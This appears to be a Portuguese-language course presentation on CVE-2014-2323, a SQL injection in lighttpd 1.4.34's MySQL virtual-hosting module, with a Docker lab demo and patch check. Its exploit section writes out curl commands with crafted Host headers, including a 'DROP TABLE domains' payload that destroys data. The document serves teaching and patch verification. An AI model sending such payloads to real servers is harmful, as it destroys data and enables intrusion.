



Vulnerabilidade relacionada:
```
CVE-2014-2323 [1] was assigned to SQL injection bug.
CVE-2014-2324 [2] was assigned to the path traversal bug.
```

Confirm: [http://download.lighttpd.net/lighttpd/security/lighttpd_sa_2014_01.txt](http://download.lighttpd.net/lighttpd/security/lighttpd_sa_2014_01.txt)

- Versão afetada: 1.4.34

# Apresentação

- [ ] Explicar a falha
  - [ ] apresentar o serviço a ser explorado
  - [ ] onde, no código fonte, está a falha
  - [ ] patch de correção da falha
- [ ] Preparar demos com relação ao exploit
  - [ ] Exploit
  - [ ] Aplicar a correção da falha 
  - [ ] Tentar explorar novamente

<!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->


- [lighttpd (lighty)](#lighttpd-lighty)
- [Virtual Hosting](#virtual-hosting)
  - [Preparando um servidor Lighttpd](#preparando-um-servidor-lighttpd)
- [SQL](#sql)
  - [sql injection](#sql-injection)
- [Docker](#docker)
  - [Container Networking](#container-networking)
- [Demo!](#demo)
  - [Exploit](#exploit)
  - [Verificação do Path](#verifica%C3%A7%C3%A3o-do-path)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

## lighttpd (lighty)

O serviço a ser explorado trata-se do Lighttpd. Esté é um Webserver opensource (licensa BSD) otimizado para ser leve e rápido. Surgiu como uma 'proof-of-concept' do famoso problema c10k (como lidar com 10mil conexões simultaneas em um servidor), tendo então ganhado bastante popularidade à época (2003), sendo atualmente utilizado port Whatsapp.com, Xkcd e no passado, Youtube. Seu posicionamento no mercado é bastante interessante, como podemos verificar no gráfico:


O servidor busca lidar com o problema de muitas conexões através do uso de mecanismos assíncronos através de eventos (`kqueue` em BSDs, `epoll` em Linux) reduzindo a necessidade de várias threads, resultando então em uma 'pegada' de memória muito menor e melhor utilização de CPU (estratégia também utilizada por servidores Nginx, cujo uso tem aumentado significativamente ao longo dos anos):



Uma das features do lighty é o fácil gerenciamente de virtual hosts.


## Virtual Hosting

Trata-se de um método utilizado para hosperadas mais de um nome de domínio cuja resolução se faz a um mesmo IP, reduzindo custos de hospedagem a empresas que buscam ofertam websites uma vez que não é necessário ofertar um servidor dedicado a cada website.

A técnica pode ser baseada em IP (uma interface para cada host) ou baseada em nome (um nome para cada host, compartilhando a interface) - explorada nesta apresentação.

**Name-Based**

:   TODO

**IP-Based**

:   TODO

**Mixed**

:   TODO

No caso de uma grande empresa pode tornar-se complexo administrar tal mapeamente dependendo do número de clientes. O Lighty oferece então suporte para o uso de banco de dados para tal finalidade como mostraremos adiante.

Antes, vejamos como fazer "na mão" a configuração de um servidor e então adicionar vhosting.

### Preparando um servidor Lighttpd

Preparar um servidor básico `lighttpd`  é muito fácil. Basta realizar sua instalação e criar um arquivo de configuração que dita a porta que será utilizada, como responder a determinadas requisições e outras configurações.

Podemos preparar um exemplo de configuração que trata apenas de receber requests de arquivos estáticos (`.html` ou `.txt`):

```
server.document-root = "/usr/lighttpd/mysite.com/"
server.port = 80

mimetype.assign = (
  ".html" => "text/html",
  ".txt" => "text/plain"
)
```

Imagine agora que desejamos criar um negócio baseado em venda de sites e oferecemos domínio próprio ao comprador. Visão minimizar os custos desejamos então usar criar *vhosts* para cada cliente. Digamos que o curso da disciplina de redes deseja adquiri três websites: `redes.io`, `mac0448.io` e `mac5910.io`. Nossa empresa então registra os domínios, todos apontando para o IP de nosso único servidor, de única interface.

ps: como desejamos simular isso podemos alterar o arquivo `/etc/hosts`:
```
172.17.0.2 redes.io
172.17.0.2 mac0448.io
172.17.0.2 mac5910.io
```

Para que sejamos capazes de servir os diferentes websites dos clientes resolvendo a partir de um único IP podemos então, na mão, configurar o servidor:

```
server.document-root = "/usr/lighttpd/default/"
server.port = 80

mimetype.assign = (
  ".html" => "text/html",
  ".txt" => "text/plain"
)

$HTTP["host"] == "redes.io" {
  server.document-root = "/usr/lighttpd/redes/"
} else $HTTP["host"] == "mac0448.io" {
  server.document-root = "/usr/lighttpd/mac0448/"
} else $HTTP["host"] == "mac5910.io" {
  server.document-root = "/usr/lighttpd/mac5910/"
}
``` 

Mas, como podemos imaginar, isto pode tornar-se um problema à medida que desejamos lidar com muitos clientes e prover diferentes configurações a cada website como citado anteriormente.

Com o módulo `mod_mysql_vhost` podemos então conectar nosso servidor a um banco de dados `mysql` responsável por tal mapeamento. Especificamos então o nome do banco de dados, como encontrá-lo em nossa rede e qual comando utilizar para realizar a busca.

```
server.modules = (
	"mod_accesslog",
	"mod_mysql_vhost"
)

mysql-vhost.db		= "NOME_DO_BANCO"
mysql-vhost.user	= "USUARIO"
mysql-vhost.pass	= "SENHA"

(!!!!!!!!!!!!!!!)
mysql-vhost.sql		= "SELECT docroot FROM domains WHERE domain='?';"
(!!!!!!!!!!!!!!!)

mysql-vhost.hostname	= "HOSTNAME"
mysql-vhost.port	= "PORTA"
```

## SQL

SQL se trata de uma linguagem declarativa para administrar bancos de dados relacionais, sendo utilizada (...) etc

TODO

- SELECT
- INSERT
- UPDATE
- DELETE
- DROP
- (...)

TODO

Problemas acontecem então pelo fato que os sistemas de gerenciamento de banco de dados que utilizam SQL supõe que os comandos inseridos serão comandos de conhecimento do administrator e por ele bem geridos. Tal suposição nem sempre é verdadeira, uma vez que falhar nos sistemas que interagem com o sistema de BD pode apresentar falhas, principalmente na web, onde a interação com o usuário é grande.


### SQL Injection

O problema com os comandos SQL aparecem quando passa a haver a intenção de construir os comandos usando textos que originados pelo usuário, seja um nome de usuário, senha ou qualquer outro conteúdo dinâmico.

(TODO)

Como resolver? Escaping.

Na nossa configuração, por exemplo, temos uma grande brecha:

```
mysql-vhost.sql		= "SELECT docroot FROM domains WHERE domain='?';"
```

ja que possivelmente (e é o que acontecia até a versão 1.4.34) o `?` pode ser substituído por qualquer comando e executado então pelo MySQL.

Vamos então simular isso em uma rede com 3 containers: 1 servidor mysql e dois servidores lighttpd, um vulnerável e outro consertado.

## Docker

O Docker provém uma camada de abstração em cima do sistema operacional permitindo virtualização sem a necessidade de outro SO através do uso de mecanismos de isolamento fornecidos pelo kernel, como `cgroups` (isolar uso de CPU, IO, memória e uso de redes de uma coleção de processos) e `namespaces` (), removendo então todo o overhead de inciar e manter uma máquina virtual. Há, dessa forma, grande otimização referente à alocação de recursos (e.g, 100 máquinas virtuais com imagens de 1GB ==> 100GB. 100 containers de uma imagem de 1GB ==> ~1GB.) e compartilhamento de processamento, assim como o Kernel e o sistema operacional em si. Arquivos comuns aos containers podem também ser compartilhados por meio de um sistem de arquivos em camadas (TODO).

Uma analogia interessante aos namespaces é o `chroot`, que permite que um processo enxergue um diretório como o root de todo seu sistema de arquivos, alterando sua perspectiva do sistema (sem alterar o resto do sistema). Com os namespaces podemos criar essa perspectiva diferenciada para diversos outros aspectos do SO, tal como árvore de processos, interfaces de redes, FS, IPC e outros.

(ver mais: [Separation Anxiety: A Tutorial for Isolating Your System with Linux Namespaces](http://www.toptal.com/linux/separation-anxiety-isolating-your-system-with-linux-namespaces))

Deve-se levar em conta que eventualmente o usuário não deseje tal compartilhamento e pouco isolamente.

### Container Networking

ver [LWN - Network Namespaces](https://lwn.net/Articles/219794/)

```
   The Internet Assigned Numbers Authority (IANA) has reserved the
   following three blocks of the IP address space for private internets:

     10.0.0.0        -   10.255.255.255  (10/8 prefix)
     172.16.0.0      -   172.31.255.255  (172.16/12 prefix)
     192.168.0.0     -   192.168.255.255 (192.168/16 prefix)
```

Quando docker iniicia, cria uma interface virtual chamada `docker0` no host.

TODO


## Demo

A demonstração depende de um ambiente com [docker](docker.io) propriamente configurado em uma máquina Linux. Feito isto, a imagem precisa ser criada:

```sh
$ ./scripts/create-lighty-image.sh
```

O comando acima então tratará de criar uma imagem baseado no arquivo `Dockerfile`, contendo os códigos fonte de ambas as versões do lighttpd: vulnerável e com a falha corrigida.

Feito isto, podemos então instanciar os containers que representarão as instâncias de processamento que fazem parte da demo e o banco de dados, também isolado como um container:

```sh
$ ./scripts/create-mysql-container.sh
$ ./scripts/create-lighty-container.sh vulnerable
$ ./scripts/create-lighty-container.sh patched
```

Como resultado temos:

- servidor de mysql escutando na porta 3306 do `lighty-mysqlserver`.
- servidor lighty escutando na porta 80 do container `lighty-vulnerable`.
- servidor lighty escutando na porta 80 do container `lighty-patched`.


Para obter os IPs dos containers, basta executar o comando:

```sh
$ ./scripts/getips.sh

Docker container ip Addresses:
 - lighty-vulnerable:  172.17.0.3
 - lighty-patched:  172.17.0.4
 - lighty-mysqlserver: 172.17.0.2
```

As 'supostas máquinas' estão prontas, resta então apenas configurar o DNS para que a resolução de endereços seja feita corretamente.  Nest momento poderíamos criar outro container, dedicado à resolução das requisições DNS usando um servidor BIND, porém para agilizar podemos simplesmente editar o `/etc/hosts`:

```
172.17.0.3 redes.io
172.17.0.3 mac0448.io
172.17.0.3 mac5910.io
```

Precisamos agora fazer com que o servidor `lighttpd` seja capaz de fazer a tarefa de *virtual hosting* usando o servidor de mysql. Para isto precisamos inserir as entradas no banco de dados de modo que nossos servidores possam então lidar com a tarefa de acordo o BD (utilizando os scripts a cima não há necessidade de realizar o procedimento a baixo - o script já inicializa a tabela):

```sh
$ docker exec -it lighty-mysqlserver bash
root@lighty-mysqlserver:/# mysql -u root -p
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| lighttpd           |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
mysql> use lighttpd;
mysql> mysql> CREATE TABLE domains(
    -> domain varchar(64) not null primary key,
    -> docroot varchar(128) not null
    -> );
Query OK, 0 rows affected (0.04 sec)

mysql> INSERT INTO domains VALUES ('redes.io', '/usr/lighttpd/redes/');
mysql> INSERT INTO domains VALUES ('mac5910.io', '/usr/lighttpd/mac5910/');
mysql> INSERT INTO domains VALUES ('mac0448.io', '/usr/lighttpd/mac0448/');

mysql> SELECT * FROM domains;
+------------+------------------------+
| domain     | docroot                |
+------------+------------------------+
| mac0448.io | /usr/lighttpd/mac0448/ |
| mac5910.io | /usr/lighttpd/mac5910/ |
| redes.io   | /usr/lighttpd/redes/   |
+------------+------------------------+
```

A partir deste instante os servidores são capazes de realizar o virtual hosting baseado no banco de dados.


### Exploit

O ataque consiste em explorar uma falha na fase de *parsing* do cabaçalho `Host` enviado em requisições HTTP com `Host` do tipo IPv6. O método responsável pelo parse permite que, além do host, outros caractéres sejam lidos e interpretados como tal. O problema disto é que, como mostrado anteriormente, no comando de busca por um host virtual uma string de host é colocada cegamente (não realizando escaping) no comando SQL:

```
mysql-vhost.sql		= "SELECT docroot FROM domains WHERE domain='QUALQUER_COISA_QUE_VENHA_NO_HOST';"
```

Um request bem intencionado apresenta então o seguinte fluxo de pacotes ao "farejarmos" a interface padrão `docker0`, por onde todos os pacotes entre os containers fluem:


Analisemos então cada componente do fluxo:

**Requisição bem formada HTTP**


**Requisição bem formada MySQL**


**Resposta MySQL**


**Resposta HTTP**


Podemos então explorar tal vulnerabilidade.

Utilizando o `curl` podemos realizar o forjar requests mal intencionados como descrito na confirmação da CVE.

```sh
$ ./scripts/exploit1
curl --header "Host: []' SINTAXE ERRADA" redes.io
```


Podemos detectar claramente que há uma vulnerabilidade a ser explorada uma vez que não deveria ocorrer um erro interno de servidor. Testando o mesmo script para o servidor do google:

```sh
$ ./scripts/exploit2
curl --header "Host: []' SINTAXE ERRADA" www.google.com

<html><title>Error 400 (Bad Request)!!1</title></html>% 
```

Confirmamos que podemos explorar o banco de dados ao analisar o request feito ao banco:

**Requisição MySQL mal formada**


**Reposta MySQL**


Podemos prosseguir então com comandos destrutíveis!

```sh
$ ./scripts/exploit3
curl --header "Host: []'; DROP TABLE domains;--'" redes.io
```

**Requisição HTTP maliciosa**


**Requisição MySQL maliciosa**


**Reposta MySQL**


E a tabela se foi! Consequentemente o servidor não será capaz de resolver hosts virtuais além daquele configurado como padrão.


### Verificação do Patch

Como nosso banco de dados perdeu a tabela de virtual hosting precisamos recuperá-la. Para isto basta executarmos, dentro do container, o processo de criação de tabela e inserção dos valores:

```
$ docker exec $DOCKER_MYSQL "bash" "-c" "mysql -u root -ptoor lighttpd < /db-init.sql"
```

Podemos verificar que o patch resolve o problema primeiramente refazendo os testes incluídos:

```
```sh
$ ./scripts/exploit4

curl --header "Host: []'; DROP TABLE domains;--'" redes.io
```

**Requisição HTTP maliciosa**


### Patch

```c
  /*
   *       host          = hostname | IPv4address | IPv6address
   *         (...)
   *       IPv6address   = "[" ... "]"
   *         (...)
   */
```

